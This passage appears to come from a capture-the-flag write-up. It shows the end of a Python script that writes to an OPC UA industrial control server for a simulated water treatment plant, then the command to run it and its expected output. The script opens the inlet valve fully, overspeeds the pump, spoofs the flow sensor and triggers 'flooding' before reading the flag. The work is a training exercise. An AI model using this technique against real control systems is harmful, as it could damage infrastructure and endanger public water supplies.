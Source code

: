 ```python
            print("🌊 FLOODING INITIATED!")
            
            # Check for the flag in SecretLog
            print("\n🔍 Checking for system response...")
            if maintenance_node:
                print("🔧 Found Maintenance node, checking contents...")
                maint_children = await maintenance_node.get_children()
                for child in maint_children:
                    child_name = await child.read_browse_name()
                    if child_name.Name == "SecretLog":
                        try:
                            secret_value = await child.read_value()
                            print(f"🏆 FLAG FOUND: {secret_value}")
                        except Exception as e:
                            print(f"Could not read SecretLog: {e}")
        
        await client.disconnect()
        print("\n🔌 Disconnected from OPC UA server")
        
    except Exception as e:
        print(f"❌ Critical error: {e}")

# Run the sabotage
asyncio.run(sabotage_water_plant())
```

### Step 6: Execute the Attack

Save the script and execute:

```bash
python sabotage.py
```

**Expected Output:**
```
🔧 Connecting to OPC UA server...
✓ Connected successfully!
🎯 Found WaterTreatmentPlant, executing sabotage...

1. Setting inlet valve to 100% open...
✓ Valve set to 100.0% open

2. Setting pump speed to 1600 RPM...
✓ Pump speed set to 1600.0 RPM

3. Setting flow sensor to 4 L/s...
✓ Flow sensor set to 4.0 L/s

4. Setting tank water level to 5m...
✓ Tank water level set to 5.0m

=== SABOTAGE SUMMARY ===
Successfully modified 4/4 parameters
🎯 ALL SABOTAGE TARGETS ACHIEVED!
🌊 FLOODING INITIATED!

🔍 Checking for system response...
🔧 Found Maintenance node, checking contents...
🏆 FLAG FOUND: HTB{w4t3r_tr34tm3nt_0v3rfl0w3d}
```
